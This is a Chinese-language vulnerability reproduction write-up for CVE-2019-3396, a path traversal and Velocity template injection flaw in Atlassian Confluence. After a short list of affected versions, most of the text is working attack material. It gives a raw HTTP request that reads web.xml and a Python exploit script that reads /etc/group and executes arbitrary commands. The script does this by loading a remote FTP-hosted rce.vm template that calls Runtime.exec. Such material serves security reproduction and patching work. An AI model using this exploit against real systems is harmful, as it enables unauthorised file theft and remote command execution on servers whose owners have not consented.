 （CVE-2019-3396）Confluence 路径穿越与命令执行漏洞
==================================================

一、漏洞简介
------------

Atlassian
Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

二、漏洞影响
------------

    Confluence 1.*.*、2.*.*、3.*.*、4.*.*、5.*.*

    Confluence 6.0.*、6.1.*、6.2.*、6.3.*、6.4.*、6.5.*

    Confluence 6.6.* < 6.6.12

    Confluence6.7.*、6.8.*、6.9.*、6.10.*、6.11.*

    Confluence 6.12.* < 6.12.3

    Confluence 6.13.* < 6.13.3

    Confluence 6.14.* < 6.14.2

三、复现过程
------------

发送如下数据包，即可读取文件`web.xml`：

    POST /rest/tinymce/1/macro/preview HTTP/1.1
    Host: localhost:8090
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
    Content-Type: application/json; charset=utf-8
    Content-Length: 176

    {"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}

![](./resource/(CVE-2019-3396)Confluence路径穿越与命令执行漏洞/media/rId24.png)

6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令：

![](./resource/(CVE-2019-3396)Confluence路径穿越与命令执行漏洞/media/rId25.png)

### poc

> 首先需要一台外网的服务器

    1.使用FTP加载vm文件  
    2.修改filename为自己的vm文件路径，例如 filename = "ftp://192.168.50.181/rce.vm"  
    3.python CVE-2019-3396.py [http://ip:port](http://ip) "whoami"

> CVE-2019-3396.py

    # -*- coding: utf-8 -*-
    import re
    import sys
    import requests

    def _read(url):
        result = {}
        # filename = "../web.xml"
        filename = 'file:////etc/group'

        paylaod = url + "/rest/tinymce/1/macro/preview"
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
            "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
            "Content-Type": "application/json; charset=utf-8"
        }
        data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"%s"}}}' % filename
        r = requests.post(paylaod, data=data, headers=headers)
        # print r.content
        if r.status_code == 200 and "wiki-content" in r.text:
            m = re.findall('.*wiki-content">n(.*)n            </div>n', r.text, re.S)

        return m[0]

    def _exec(url,cmd):
        result = {}
        filename = "ftp://192.168.50.181/rce.vm"

        paylaod = url + "/rest/tinymce/1/macro/preview"
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
            "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
            "Content-Type": "application/json; charset=utf-8"
        }
        data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"http://www.dailymotion.com/video/xcpa64","width":"300","height":"200","_template":"%s","cmd":"%s"}}}' % (filename,cmd)
        r = requests.post(paylaod, data=data, headers=headers)
        # print r.content
        if r.status_code == 200 and "wiki-content" in r.text:
            m = re.findall('.*wiki-content">n(.*)n            </div>n', r.text, re.S)

        return m[0]

    if __name__ == '__main__':
        url = sys.argv[1]
        cmd = sys.argv[2]
        print _exec(url,cmd)

> rce.vm

    #set ($e="exp")
    #set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
    #set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
    #set($sc = $e.getClass().forName("java.util.Scanner"))
    #set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
    #set($scan=$constructor.newInstance($input).useDelimiter("\A"))
    #if($scan.hasNext())
        $scan.next()
    #end

参考链接
--------

> https://vulhub.org/\#/environments/confluence/CVE-2019-3396/
